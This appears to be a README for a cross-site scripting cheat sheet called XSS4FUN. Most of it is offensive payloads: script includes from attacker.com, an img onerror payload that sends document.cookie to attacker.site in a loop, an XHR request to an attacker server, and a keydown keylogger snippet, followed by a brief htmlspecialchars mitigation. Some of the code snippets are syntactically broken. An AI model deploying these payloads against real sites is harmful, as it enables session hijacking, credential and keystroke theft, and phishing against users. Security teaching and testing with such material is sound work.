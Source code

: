 # XSS4FUN :cookie:
Cross-Site-Scripting just for fun.

## Cross-Site-Scripting Utils:
  - Steal cookies for session hijacking.
  - Modify Webpage to perform phishing.
  - Inject malicious code.
## Basic payloads:
  - <script>alert(1)</script>

## Useful payloads:
  - **<script src=https://attacker.com/keystroke.js > </script>**
    - To include malicious javascript code in page.
  - **\<img src=anything onerror=alert(1) >**
    - When the **<script>** is being filtered by the Web Application, you can use javascript events.
  - **<script>alert(localStorage.getItem('salary'))</script>**
    - To collect sensitive information stored in Browser Local Storage.
  - **<img src=error onerror=this.src='http://attacker.site/collector.php?data='+document.cookie >**
    - This payload starts a loop, so the browser start sending multiple requests to the attacker server with the cookie.

## Javascript useful codes:
  - To perform HTTP GET request
  ```
  var xhttp = new XMLHttpRequest(); //Init xhttp object
  xhttp.open("GET", "https://attacker.site/strokes.php?data=data, true); //GET request
  xhttp.send(); //Send request
  ```
  - Collect pressed key
  ```
  document.addEventListener("keydown",function(e){
  pressed_key = e.key;
  }
  ```
## Mitigations    
  ## PHP
   Using **htmlspecialchars** to convert special characters to HTML.
  ```
  $word = htmlspecialchars($_GET['word']);
  ```
  So this **<script>alert(1)</script>** becomes this **\&lt;script\&gt;alert(1)\&lt;/script&gt**

## Automated Detection
  ## xss4fun.py
  Using selenium to find input fields and inject payloads, if the injection is sucessful, a printscreen is made.
